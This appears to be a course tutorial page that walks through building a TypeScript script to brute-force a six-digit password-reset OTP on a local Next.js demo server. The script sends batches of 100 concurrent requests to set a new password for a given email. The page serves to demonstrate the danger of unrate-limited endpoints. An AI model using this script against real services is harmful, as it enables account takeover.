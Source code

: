Export Node.js code from Postman to hit the endpoint

![1.00](https://www.notion.so/image/https%3A%2F%2Fprod-files-secure.s3.us-west-2.amazonaws.com%2F085e8ad8-528e-47d7-8922-a23dc4016453%2Fbddad4a6-471a-4f08-8b5a-0bd92b765115%2FScreenshot_2024-04-20_at_4.20.16_PM.png?table=block\&id=73013d9b-8006-4da8-84c6-1e4d47a584b8\&cache=v2 "notion image")

1. Create a new folder (exploit-service)

1) Initialize simple ts project in it

```TypeScript
npm init -y
npx tsc --init
```

1. Install dependencies

```TypeScript
npm install axios
```

1. Add brute force logic to hit the server

```TypeScript
import axios from "axios";

async function sendRequest(otp: number) {
  let data = JSON.stringify({
    "email": "harkirat@gmail.com",
    "otp": otp,
    "newPassword": "123123123"
  });

  let config = {
    method: 'post',
    maxBodyLength: Infinity,
    url: 'http://localhost:3000/reset-password',
    headers: {
      'sec-ch-ua': '"Google Chrome";v="123", "Not:A-Brand";v="8", "Chromium";v="123"',
      'Next-Router-State-Tree': '%5B%22%22%2C%7B%22children%22%3A%5B%22admin%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D',
      'sec-ch-ua-mobile': '?0',
      'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36',
      'Accept': 'text/x-component',
      'Referer': 'http://localhost:3000/admin',
      'Next-Action': 'a221b071140e55563e91a3226c508cb229c121f6',
      'sec-ch-ua-platform': '"macOS"',
      'Content-Type': 'application/json'
    },
    data: data
  };

  try {
    await axios.request(config)
    console.log("done for " + otp);
  } catch(e) {

  }
}

async function main() {
  for (let i = 0; i < 1000000; i+=100) {
    const promises = [];
    console.log("here for " + i);
    for (let j = 0; j < 100; j++) {
      promises.push(sendRequest(i + j))
    }
    await Promise.all(promises);
  }
```